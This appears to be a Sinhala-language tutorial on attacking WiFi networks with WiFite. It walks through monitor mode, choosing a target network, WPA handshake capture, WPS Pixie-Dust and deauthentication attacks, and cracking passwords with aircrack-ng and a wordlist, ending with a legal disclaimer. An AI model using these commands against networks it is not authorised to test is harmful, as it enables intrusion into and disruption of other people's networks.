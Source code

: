 
sudo apt update && sudo apt install wifite -y

🔹 WiFite ක්‍රියාත්මක කිරීම
WiFite root privileges අවශ්‍ය කරන බැවින්, sudo යොදන්න:


sudo wifite

මෙය අවසන් WiFi Attack ක්‍රියාත්මක කරයි.

🔹 WiFi Attack කිරීමේ මූලික පියවර
1️⃣ Monitor Mode Enable කිරීම


sudo airmon-ng start wlan0

👉 wlan0 වෙනුවට ඔබේ WiFi adapter එකේ නම දක්වන්න (iwconfig භාවිතා කරමින් සොයාගත හැක).

2️⃣ WiFi Networks Scan කිරීම


sudo wifite --kill

👉 WiFite WiFi ජාල ව්‍යාප්තියක් සොයා ගනී.

3️⃣ Target Network එකක් තෝරා ගන්න

👉 WiFi list එක ලැබුණු පසු, ඔබට අවශ්‍ය Network එකේ අංකය ඇතුලත් කරන්න.

4️⃣ Attack Type තෝරා ගන්න

WEP Attack
WPA/WPA2 Handshake Capture
WPS Pixie-Dust Attack
Deauthentication Attack (DoS)

🔹 Advanced Commands
✅ වඩාත් වේගවත් атака කිරීමට (Automated Mode):

sudo wifite -i wlan0mon --wps --wpa --wep


✅ Handshake Capture + Aircrack-ng


sudo wifite -i wlan0mon --wpa

👉 Handshake එකක් capture කර password crack කිරීමට "aircrack-ng" භාවිතා කරන්න.

aircrack-ng -w rockyou.txt -b <BSSID> <CAP_FILE>
(rockyou.txt යනු password list එකකි.)




⚠️ වැදගත් අවධානය
🔴 මෙය අධිකරණයෙන් අවසර නොමැතිව වෙනත් ජාලයකට කිරීමට නීතිවිරෝධීයි.
🔴 Ethical Hacking සඳහා පමණක් භාවිතා කරන්න.
🔴 ඔබේම WiFi ජාලයක ආරක්ෂාව පරීක්ෂා කිරීමට පමණක් භාවිතා කරන්න.



© 2025 Secure Horizon [M.R.C005]

